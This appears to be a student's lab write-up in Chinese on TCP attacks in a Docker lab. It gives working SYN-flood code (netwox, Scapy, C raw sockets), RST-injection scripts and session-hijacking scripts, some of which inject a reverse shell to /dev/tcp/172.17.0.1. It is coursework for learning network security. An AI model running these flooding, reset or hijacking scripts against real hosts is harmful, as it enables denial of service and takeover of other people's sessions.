本机ip（攻击机）

172.17.0.1



创建子网

sudo docker run -it --name=user --hostname=user --privileged "seedubuntu" /bin/bash

user 172.17.0.2



server 

sudo docker run -it --name=server --hostname=server --privileged "seedubuntu" /bin/bash



# netwox tcp synflood

首先需要开启目标机的 telnet 服务  

service openbsd-inetd start



## 情况1 关闭SYN cookie

`sysctl -w net.ipv4.tcp_syncookies=0`



### 攻击前

telnet正常连接



### 攻击中

攻击命令：netwox 76 -i 172.17.0.3 -p 23

telnet一直显示trying 无法和攻击前一样正常连接



## 情况2 开启SYN cookie

`sysctl -w net.ipv4.tcp_syncookies=1`



### 攻击中

user可以通过telnet 连接server 如图



# scapy tcp synflood

## 关闭SYN cookie



scapy脚本

```python
#!/usr/bin/python3
from scapy.all import IP, TCP, send
from ipaddress import IPv4Address
from random import getrandbits

a = IP(dst="172.17.0.3")
b = TCP(sport=1551, dport=23, seq=1551, flags='S')
pkt = a/b

while True:
    pkt['IP'].src = str(IPv4Address(getrandbits(32)))
    send(pkt, verbose = 0)

```

telnet连不上


# c tcp synflood

## 关闭SYN cookie

```C
#include <unistd.h>
#include <stdio.h>
#include <stdlib.h>
#include <time.h>
#include <string.h>
#include <sys/socket.h>
#include <netinet/ip.h>
#include <arpa/inet.h>

#include "myheader.h"

#define DEST_IP    "172.17.0.3"
#define DEST_PORT  23  // Attack the web server
#define PACKET_LEN 1500

unsigned short calculate_tcp_checksum(struct ipheader *ip);
void send_raw_ip_packet(struct ipheader* ip);


/******************************************************************
  Spoof a TCP SYN packet.
*******************************************************************/
int main() {
   char buffer[PACKET_LEN];
   struct ipheader *ip = (struct ipheader *) buffer;
   struct tcpheader *tcp = (struct tcpheader *) (buffer +
                                   sizeof(struct ipheader));

   srand(time(0)); // Initialize the seed for random # generation.
   while (1) {
     memset(buffer, 0, PACKET_LEN);
     /*********************************************************
        Step 1: Fill in the TCP header.
     ********************************************************/
     tcp->tcp_sport = rand(); // Use random source port
     tcp->tcp_dport = htons(DEST_PORT);
     tcp->tcp_seq   = rand(); // Use random sequence #
     tcp->tcp_offx2 = 0x50;
     tcp->tcp_flags = TH_SYN; // Enable the SYN bit
     tcp->tcp_win   = htons(20000);
     tcp->tcp_sum   = 0;

     /*********************************************************
        Step 2: Fill in the IP header.
     ********************************************************/
     ip->iph_ver = 4;   // Version (IPV4)
     ip->iph_ihl = 5;   // Header length
     ip->iph_ttl = 50;  // Time to live
     ip->iph_sourceip.s_addr = rand(); // Use a random IP address
     ip->iph_destip.s_addr = inet_addr(DEST_IP);
     ip->iph_protocol = IPPROTO_TCP; // The value is 6.
     ip->iph_len = htons(sizeof(struct ipheader) +
                         sizeof(struct tcpheader));

     // Calculate tcp checksum
     tcp->tcp_sum = calculate_tcp_checksum(ip);

     /*********************************************************
       Step 3: Finally, send the spoofed packet
     ********************************************************/
     send_raw_ip_packet(ip);
   }

   return 0;
}


/*************************************************************
  Given an IP packet, send it out using a raw socket.
**************************************************************/
void send_raw_ip_packet(struct ipheader* ip)
{
    struct sockaddr_in dest_info;
    int enable = 1;

    // Step 1: Create a raw network socket.
    int sock = socket(AF_INET, SOCK_RAW, IPPROTO_RAW);

    // Step 2: Set socket option.
    setsockopt(sock, IPPROTO_IP, IP_HDRINCL,
                     &enable, sizeof(enable));

    // Step 3: Provide needed information about destination.
    dest_info.sin_family = AF_INET;
    dest_info.sin_addr = ip->iph_destip;

    // Step 4: Send the packet out.
    sendto(sock, ip, ntohs(ip->iph_len), 0,
           (struct sockaddr *)&dest_info, sizeof(dest_info));
    close(sock);
}


unsigned short in_cksum (unsigned short *buf, int length)
{
   unsigned short *w = buf;
   int nleft = length;
   int sum = 0;
   unsigned short temp=0;

   /*
    * The algorithm uses a 32 bit accumulator (sum), adds
    * sequential 16 bit words to it, and at the end, folds back all
    * the carry bits from the top 16 bits into the lower 16 bits.
    */
   while (nleft > 1)  {
       sum += *w++;
       nleft -= 2;
   }

   /* treat the odd byte at the end, if any */
   if (nleft == 1) {
        *(u_char *)(&temp) = *(u_char *)w ;
        sum += temp;
   }

   /* add back carry outs from top 16 bits to low 16 bits */
   sum = (sum >> 16) + (sum & 0xffff);  // add hi 16 to low 16
   sum += (sum >> 16);                  // add carry
   return (unsigned short)(~sum);
}


/****************************************************************
  TCP checksum is calculated on the pseudo header, which includes
  the TCP header and data, plus some part of the IP header.
  Therefore, we need to construct the pseudo header first.
*****************************************************************/
unsigned short calculate_tcp_checksum(struct ipheader *ip)
{
   struct tcpheader *tcp = (struct tcpheader *)((u_char *)ip +
                            sizeof(struct ipheader));

   int tcp_len = ntohs(ip->iph_len) - sizeof(struct ipheader);

   /* pseudo tcp header for the checksum computation */
   struct pseudo_tcp p_tcp;
   memset(&p_tcp, 0x0, sizeof(struct pseudo_tcp));

   p_tcp.saddr  = ip->iph_sourceip.s_addr;
   p_tcp.daddr  = ip->iph_destip.s_addr;
   p_tcp.mbz    = 0;
   p_tcp.ptcl   = IPPROTO_TCP;
   p_tcp.tcpl   = htons(tcp_len);
   memcpy(&p_tcp.tcp, tcp, tcp_len);

   return  (unsigned short) in_cksum((unsigned short *)&p_tcp,
                                     tcp_len + 12);
}


```

telnet连不上



# RESET

## netwox

用user去telnet服务器 


ip.addr==172.17.0.3&&tcp.port==23 # Wireshark过滤器设置

netwox 78 -d docker0# TCP reset攻击命令


用user 去 telnet server

同时使用Wireshark进行抓包，观察到三次握手成功，TCP连接建立，如下图：  



将172.17.0.1作为攻击机 采用 netwox 78 作为攻击手段，首先查看对应网卡，如下  



所以攻击命令 netwox 78 -d docker0

随后开始TCP reset攻击，观察到原有的telnet连接断开，如下  



此时查看Wireshark查看抓包情况，观察到有一个RST 包 



你的攻击是否成功？成功了。
你怎么知道它是否成功？telnet的连接终止，同时Wireshark抓包看到了RST包和对RST ACK包。
你期待看到什么？期待看到telnet连接终止和RST包的发送。
你观察到了什么？观察到了telnet的连接终止，同时Wireshark抓包看到了RST包和对RST ACK包。
观察结果是你预想的那样吗？二者一致。  

## scapy

scapy脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING RESET PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40498, dport=23, flags="R", seq=3083117262)
pkt = ip/tcp
ls(pkt)
send(pkt,verbose=0)
```

首先用telnet建立172.17.0.2 和 172.17.0.3 之间的TCP通信，用Wireshark抓包观察到连接成功建
立，同时获取数据包的端口号和序列号信息，如下图：  



运行脚本 观察抓到了RST包 并且连接断开





你的攻击是否成功？成功了。
你怎么知道它是否成功？telnet的连接终止，同时Wireshark抓包看到了RST包。
你期待看到什么？期待看到telnet连接终止和RST包的发送。
你观察到了什么？观察到了telnet的连接终止，同时Wireshark抓包看到了RST包。
观察结果是你预想的那样吗？二者一致  

## scapy自动

脚本：

```python
#!/usr/bin/python3
from scapy.all import *

SRC = "172.17.0.2"
DST = "172.17.0.3"
PORT = 23

def spoof(pkt):
    old_tcp = pkt[TCP]
    old_ip = pkt[IP]
    ip = IP(src = old_ip.dst, dst = old_ip.src)
    tcp = TCP(sport = old_tcp.dport, dport = old_tcp.sport, seq = old_tcp.ack,flags = "R") 
    pkt = ip/tcp
	send(pkt, verbose=0)
	print("Spoofed Packet: {} --> {}".format(ip.src, ip.dst))
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof, iface="docker0")
```

先运行scapy自动攻击脚本，然后开启 10.10.51.3 和 10.10.51.2 之间的telnet通信，观察到telnet会
话被成功打断，如下图：  



抓包抓出来大量RST



# 会话劫持

## 用netwox进行TCP会话劫持攻击，包括注入普通命令和反向shell  

### 普通命令




```bash
# 劫持TCP并注入ls命令
sudo netwox 40 --ip4-src 172.17.0.2 --ip4-dst 172.17.0.3 --tcp-src 40502 --tcp-dst 23 --tcp-seqnum 531069635 --tcp-acknum 497783905 --tcp-ack --tcp-window 227 --tcp-data "6c730d00"

```

### 




发送的命令



ls命令返回的数据



同时根据上图黑色部分的数据包可以得知，telnet失效。这是由于发送劫持数据包并返回数据后，目标
机期望得到的ACK序号已被更新，而原有的会话持有者发送的数据包ACK序号仍保持原状，因此会被目
标机丢弃。此时telnet连接端的用户机现象为 卡死 ，即对输入无任何响应（包括回显输入）。  

### 反向shell


```bash
# 劫持TCP并注入反向shell命令"/bin/bash -i > /dev/tcp/172.17.0.1/5151 0<&1 2>&1\r\n"
nc -l 5151 -v 
sudo netwox 40 --ip4-src 172.17.0.2 --ip4-dst 172.17.0.3 --tcp-src 40516 --tcp-dst 23 --tcp-seqnum 2949220429 --tcp-acknum 3070177808 --tcp-ack --tcp-window 227 --tcp-data "2f62696e2f62617368202d69203e202f6465762f7463702f3137322e31372e302e312f3531353120303c263120323e26310d0a00"
```

可以看到shell变了 劫持成功了



你的攻击是否成功？成功。
你怎么知道它是否成功？劫持注入的数据包成功发送，并返回所包含命令的执行结果，正常连接由
于ACK的异常导致无效被丢弃，符合预期。
你期待看到什么？劫持注入的数据包成功发送，并返回所包含命令的执行结果，正常连接失效。
你观察到了什么？劫持注入的数据包成功发送，并返回所包含命令的执行结果，正常连接失效。
观察结果是你预想的那样吗？是  

## Scapy手动

### 普通命令



脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING SESSION HIJACKING PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40524, dport=23, flags="A", seq=703022962, ack=666629549)
data = "\n touch /tmp/mytest.txt\n"
pkt = ip/tcp/data
send(pkt, verbose=0)
```

劫持成功



抓包抓到命令



### 反向shell



脚本

```python
#!/usr/bin/python3
from scapy.all import *
print("SENDING SESSION HIJACKING PACKET...")
ip = IP(src="172.17.0.2", dst="172.17.0.3")
tcp = TCP(sport=40526, dport=23, flags="A", seq=1560628632, ack=1440868978)
data = "/bin/bash -i > /dev/tcp/172.17.0.1/5151 0<&1 2>&1\r\n"
pkt = ip/tcp/data
send(pkt, verbose=0)
```

先nc监听，再开另一个终端运行脚本，反向shell成功



抓包抓到了



## scapy自动

### 普通命令

脚本

```python
#!/usr/bin/python3
from scapy.all import *
SRC = "172.17.0.2"
DST = "172.17.0.3"
PORT = 23
def spoof(pkt):
	old_ip = pkt[IP]
	old_tcp = pkt[TCP]

	ip = IP( src = old_ip.src,
             dst = old_ip.dst
            )
	tcp = TCP( sport = old_tcp.sport,
			   dport = old_tcp.dport,
		       seq = old_tcp.seq,
			   ack = old_tcp.ack,
			   flags = "A"
			  )
	data = "\n ls\n"

	pkt = ip/tcp/data
	send(pkt,verbose=0)
	ls(pkt)
	quit()
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof)
```

user卡死 



抓包



### 反向shell

```python
#!/usr/bin/python3
from scapy.all import *

SRC = "172.17.0.3"
DST = "172.17.0.2"
PORT = 23

def spoof(pkt):
    old_ip = pkt[IP]
	old_tcp = pkt[TCP]
    
	ip = IP( src = old_ip.src, 
             dst = old_ip.dst
           )

	tcp = TCP( sport = old_tcp.sport, 
               dport = old_tcp.dport, 
               seq = old_tcp.seq,
               ack = old_tcp.ack, 
               flags = "A"
             )
	data = "\r\n /bin/bash -i > /dev/tcp/172.17.0.1/5252 0<&1 2>&1\r\n"
	pkt = ip/tcp/data
	send(pkt, verbose=0)
	ls(pkt)
	quit()
    
f = 'tcp and src host {} and dst host {} and dst port {}'.format(SRC, DST, PORT)
sniff(filter=f, prn=spoof)
```



